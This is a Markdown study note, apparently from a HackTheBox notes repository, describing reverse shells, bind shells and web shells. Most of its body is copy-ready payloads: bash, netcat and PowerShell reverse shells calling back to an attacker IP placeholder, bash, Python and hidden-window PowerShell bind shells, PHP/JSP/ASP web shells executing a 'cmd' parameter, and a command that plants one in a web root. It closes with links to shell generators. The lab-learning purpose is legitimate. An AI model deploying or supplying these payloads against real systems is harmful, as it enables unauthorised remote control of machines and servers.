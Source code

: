  ![Banner](Shell.jpg)

# 🔧 **Type of Shells**

## 1. 🔄 Reverse Shell

  In a reverse shell, the target machine connects back to the attacker’s machine, giving the attacker control.

- **Working:** Attacker sets up a listener; the victim initiates the connection.

- **Use:** Bypassing firewalls (since outgoing connections are often allowed).

- **Example flow:**
  
  The first step is to setup a listner (e.g. netcat listener) on a port of your choosing:

      `nc -lvnp <PORT> `

  Next step is choosing the shell according to the envirnment and services. We can use to get a reverse connection, for bash on Linux compromised hosts and Powershell on Windows compromised hosts:
  
  > Linux (bash):
   
       `bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<Port> 0>&1'`
  > Linux (bash):

      `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip> <port> >/tmp/f`
  
  > Windows (powershell):
  
      `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<attacker_ip>', <port>);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"`


## 2. 🔗 Bind Shell
  
  In a bind shell, the target machine opens a port and listens for incoming connections from the attacker.
  
- **Working:** The victim machine opens a port and listens; the attacker connects to it to gain a shell.
  
- **Use:** Simple to set up in unrestricted environments, but less useful behind firewalls or NAT, since incoming connections may be blocked.

- **Example flow:**

    First, the victim runs a bind shell command on their system. The shell listens on a port (e.g. 0-65535) and waits for an attacker to connect.

  > Linux (bash):

      `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -lvp <Port> > /tmp/f`
  
  > Linux (Python):

      `python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept(); while True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'`

  > Windows (PowerShell):

      `powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start(); $client = $listener.AcceptTcpClient(); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (pwd).Path + " "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}; $client.Close();`

    Once the victim sets the bind shell, attacker can connect like this:

       nc <victim_ip> <Port>
  
    If successful, this gives the attacker an interactive shell.
    


## 3. 🌐 Web Shell
  
  A web shell is a malicious script uploaded to a web server (usually PHP, ASP, JSP, etc.). It executes system commands sent through HTTP requests.

- **Working:** The attacker uploads a script (e.g., PHP, ASP) to the victim’s web server. This script executes system commands via a browser interface.

- **Use:** Common in web server exploitation, especially after finding a file upload or RCE vulnerability. Allows remote command execution via HTTP/S.


- **Example flow:**

  Writing the Web Shell:
    > PHP (most common):
    
      `<?php system($_REQUEST["cmd"]); ?>`
    
    > JSP:
    
      `<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`
    
    > ASP:
    
      `<% eval request("cmd") %>`

  Uploading the Shell:
    If an upload feature is vulnerable:
        We can upload shell.php to /var/www/html/ or equivalent.
    We can also simply upload the shell file(i.e. in my case it's [Web_Shell.php](https://github.com/en1gm4-exe/HackTheBox/blob/main/Notes%20/%20Shell%20/Web_Shell.php))
 
    If we already have RCE:
      
      `echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php`

    Accessing Web Shell:

      `http://<server_ip>:<port>/shell.php?cmd=id`



# Links for shell generation

> [Powershells cheat sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/powershell-cheatsheet/)

> [Reverse shells cheat sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#tools)

> [Bind shells cheat sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/#python)

> [Shell generator](https://www.revshells.com/)
